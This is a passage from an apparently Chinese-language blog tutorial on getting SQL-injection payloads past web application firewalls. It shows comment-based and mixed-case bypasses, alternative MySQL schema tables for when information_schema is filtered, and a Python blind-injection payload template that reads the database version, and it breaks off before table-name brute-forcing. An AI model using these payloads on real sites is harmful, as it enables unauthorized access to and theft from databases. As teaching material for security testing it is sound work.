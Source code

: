 #### /*注释内容*/绕过

```cobol
select * from users /* where id = 1 */
```

#### //注释绕过

```cobol
select * from users // where id = 1 
```

### 大小写绕过

如果waf对大小写不敏感我们就可以使用这个

```cobol
sElEct  * from users whErE id = 1 union sElEct 1,2,3
```

## 绕过information过滤

```cobol
sys.schema_auto_increment_columns
 
sys.schema_table_statistics_with_buffer
 
sys.x$schema_table_statistics_with_buffer
 
sys.x$schema_table_statistics
 
sys.x$ps_schema_table_statistics_io
 
mysql.innodb_table_stats
 
mysql.innodb_index_stats
```

但是在这之前我们先需要看看我们的version是什么

修改上面的payload

```python
payload = """a'or(ord(substr((reverse(substr((version())from({0}))))from({1})))<>{2})#""".format(i, j, k)
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/406c56a27f4dc54e18b76ce28213d30e.png" alt="" style="max-height:122px; box-sizing:content-box;" />


所以上面都不能用。。。。

## 简单的爆破表名

这里我们就开始思考能不能爆破
